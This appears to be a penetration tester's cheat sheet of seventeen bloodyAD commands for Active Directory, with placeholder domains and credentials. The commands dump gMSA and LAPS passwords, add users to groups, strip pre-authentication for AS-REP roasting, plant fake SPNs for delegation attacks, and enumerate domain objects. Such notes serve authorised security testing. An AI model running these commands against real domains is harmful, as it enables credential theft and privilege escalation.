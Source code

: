 # BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

## Guide: https://github.com/CravateRouge/bloodyAD/wiki/User-Guide

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)

#### 4)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k remove uac TARGET_USER -f ACCOUNTDISABLE

(Enable accounts)

#### 5) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k set object "SVC_ACCOUNT" servicePrincipalName  -v "cifs/fake" 

(Set a fake SPN for an account to do Constrained Delegation attack)

#### 6)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(samAccountType=805306368)(servicePrincipalName=*))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2

(Get Kerberoastable accounts)

#### 7) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName

(Get account that do not require Kerberos pre-authentication (AS-REP))

#### 8)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump | sed -n '/[^\n]*\*/,/^$/p'

(Check if ADIDNS has a wildcard entry (if not, check ADIDNS spoofing))

#### 9) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get dnsDump

(Get all DNS Records from AD)

#### 10)

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr ms-DS-MachineAccountQuota

(Get Machine Account Quota (MAQ) to do an RBCD attack if the num is 10)

#### 11) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype useronly

(Get all users)

#### 12) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype computer

(Get all computers)

#### 13) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype container

(Get all containers)

#### 14) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get children --otype trustedDomain

(Get all trusts)

#### 15) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr minPwdLength

(Get min Password Length)

#### 16) 

    bloodyAD -u USERNAME -p 'PASSWORD' -d DOMAIN.COM --host dc01.DOMAIN.COM get object 'DC=DOMAIN,DC=COM' --attr msDS-Behavior-Version

(Get AD Forest level)

#### 17)

    bloodyAD -u USERNAME -d DOMAIN.COM -p PASSWORD --host dc01.DOMAIN.COM get object 'COMPUTER$' --attr ms-Mcs-AdmPwd

(Dump LAPS Password)
